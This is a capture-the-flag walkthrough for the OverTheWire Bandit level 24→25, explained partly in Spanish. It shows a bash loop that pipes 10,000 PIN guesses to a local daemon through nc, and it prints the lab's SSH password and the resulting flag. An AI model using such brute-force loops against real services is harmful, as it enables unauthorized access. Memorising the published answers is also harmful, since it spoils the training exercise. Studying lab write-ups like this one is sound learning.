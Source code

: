# Level-24 -> Level-25

### Level Goat
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
### Credentials
ssh bandit24@bandit.labs.overthewire.org -p 2220
password: **VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**
### Solution
```shell
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
.
.
.
.
.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$ 

```
### Summary
El comando `for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done` genera una lista de cadenas que comienzan con “VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar” y terminan con un número de cuatro dígitos del 0000 al 9999.

El comando `do` es una palabra clave que se utiliza en combinación con el comando `for` en Linux. En este caso, el comando `do` se utiliza para indicar el inicio del bloque de código que se ejecutará en cada iteración del bucle `for`.

El bucle `for` se ejecutará 10,000 veces. En cada iteración del bucle, se imprimirá una cadena que comienza con “VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar” y termina con un número de cuatro dígitos del 0000 al 9999.

Cada cadena generada se imprime en la salida estándar. En este caso, la salida se mostrará en la terminal o consola donde se ejecuta el comando.
### FLAG
**p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d** 